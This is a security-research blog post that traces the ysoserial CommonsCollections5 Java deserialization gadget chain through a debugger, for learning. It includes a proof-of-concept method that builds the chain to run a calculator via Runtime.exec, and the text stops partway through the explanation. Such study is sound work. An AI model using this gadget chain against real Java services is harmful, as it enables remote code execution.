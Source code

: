 ```yaml
---
layout: post
title:  "Analyze Java deserialization gadget chains - For learning purpose"
date:   2022-01-19 16:00:00 +0700
categories: research
author: Quang Vo
tags: java, deserialization
description: Research
---
```


# Introduction 
Most of people have heard about Java deserialization apocalypse. There are great tools out there for hunting deserialization vulnerabilities out there, to name a fews:
- The famous [ysoserial](https://github.com/frohoff/ysoserial)
- The same [ysoserial](https://github.com/pwntester/ysoserial.net) but for C# .NET
- [Gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector)

While in those tools, payloads are already there for us to use. But I believe the best way to learn and remember what we learnt are by actually understanding it, that's why I write this blog, to help me remember and understand it more and also for who want to know about this. t

In this blog, we are going to dive in some of the famous gadget chain to see what's in there and how it's work.

IDE I use in this blog will be [IntelliJ IDEA Ultimate](https://www.jetbrains.com/idea/) so that we can debug line by line of codes, you can use the community version, it's fine.

I'm not an expert in Java or Java deserialization exploit, so if I made any mistakes in this blog post, please forgive me and let me know how can I fix it.

## CommonsCollections5 gadget chain

In ysoserial, there are 7 different gadget chains relate to `CommonsCollection` . In this blog post, I'll use `commons-collection version 3.2.1` .

Here is what the gadget chain look like from `ysoserial` : 

```java
BadAttributeValueExpException.readObject()
  TiedMapEntry.toString()
    TiedMapEntry.getValue()
      LazyMap.get()
        ChainedTransformer.transform()
          ConstantTransformer.transform()
          InvokerTransformer.transform()
            Method.invoke()
              Class.getMethod()
          InvokerTransformer.transform()
            Method.invoke()
              Runtime.getRuntime()
          InvokerTransformer.transform()
            Method.invoke()
```

I write some Java code to invoke the gadget chain and start to debug it ( you can see more details from [here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)):
```java
   public static void CommonsCollections5() throws IllegalAccessException, NoSuchFieldException {

        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"gnome-calculator"})});
        HashMap innerMap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innerMap,chain);
        TiedMapEntry tiedMap = new TiedMapEntry(map,123);
        tiedMap.toString();

        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);

        Field fi = poc.getClass().getDeclaredField("val");
        fi.setAccessible(true);
        fi.set(poc, tiedMap);
    }
```

The gadget chain start at `BadAttributeValueExpException.readObject()`

Content of `BadAttributeValueExpException.readObject()`

![image](https://user-images.githubusercontent.com/37280106/150266360-12b657d4-9f5a-45ee-aa0f-dccd4bd4a735.png)

We will place breakpoint at `LazyMap.get()` method to start debugging this gadget chain

![image](https://user-images.githubusercontent.com/37280106/150266663-855ce765-8fcb-488e-88d8-e71c93f271bf.png)

Why do I place breakpoint at `LazyMap.get()` method ?. 

That is because if we place breakpoint at `BadAttributeValueExpException.readObject()` or `TiedMapEntry.toString()` or `TiedMapEntry.getValue()` method.
IntelliJ IDEA Debugger will execute the payload and pop calc before we go all the way down to the gadget chain, I guess during the Debugger session, IntelliJ IDEA has invoked methods beforehand to get us the local variables's value, so the payload has been executed.


Let's go through what `LazyMap.get()` does:
- First, it checks if `this.map` has a key or not
- If not, it will call method `this.factory.transform()`

![image](https://user-images.githubusercontent.com/37280106/150267702-fc9a2313-8360-4e8a-8720-cf7cebbec500.png)

`this.factory` here is `ChainedTransfomer` so `this.factory.transform()` is `ChainedTransformer.transform` 

Stepping into `this.factory.transform()`
![image](https://user-images.githubusercontent.com/37280106/150271971-8917f61a-4674-4015-bfc3-6e033447f2cb.png)



`this.iTransformer[]` has 4 elements:
- ConstantTransformer
- InvokerTransformer
- InvokerTransformer
- InvokerTransformer

#### At the first interval, `i=0` 

`this.iTransformer[0] = ConstantTransformer` 

So `this.iTransformer[0].transform() = ConstantTransformer.transform()`


![image](https://user-images.githubusercontent.com/37280106/150269639-b80b205d-e819-402b-89a4-1b56d8c3222e.png)
*ConstantTransformer.transform()*

`ConstantTransformer.transform()` doesn't do anything much, just return `this.iConstant` 

#### Second interval, `i=1`

![image](https://user-images.githubusercontent.com/37280106/150272216-e36be323-b30c-4c2d-8fe1-52203a75154a.png)

`this.iTransformer[1].transform(object)` where:
- `this.iTransformer[1] = InvokerTransformer`
- `Object = class java.lang.Runtime` 

Stepping in `InvokerTransformer.transform(object)` 

![image](https://user-images.githubusercontent.com/37280106/150272502-2170d79d-a22f-43d9-89a0-09e094a6a975.png)

Current local variables:
- `Object input = class java.lang.Runtime` 
- `Class cls = Runtime.class.getClass()` => `cls = java.lang.Class` 
- `this.iMethodName = getMethod` 
- `this.iParamTypes has been set before: String.class, Class[].class`
- `this.iArgs = new Object[2] {"getRuntime", Class[0]}` 
- 
And then it executes `method.invoke` 

The input here is: `Runtime.class`, an **Object** of class `java.lang.Class`. Every class in Java is an object of class `java.lang.Class` 

So `Class cls = Runtime.class.getClass() => cls = java.lang.Class` 

The next line: `Method method = cls.getMethod(this.iMethodName, this.iParamTypes)` with:
- `this.iMethodName = "getMethod"`

It turns to:
```java
Method method = Class.getMethod("getMethod"); 
```
Which means, using `getMethod` to get the method name `getMethod` of class `Class` ( kinda confusing )
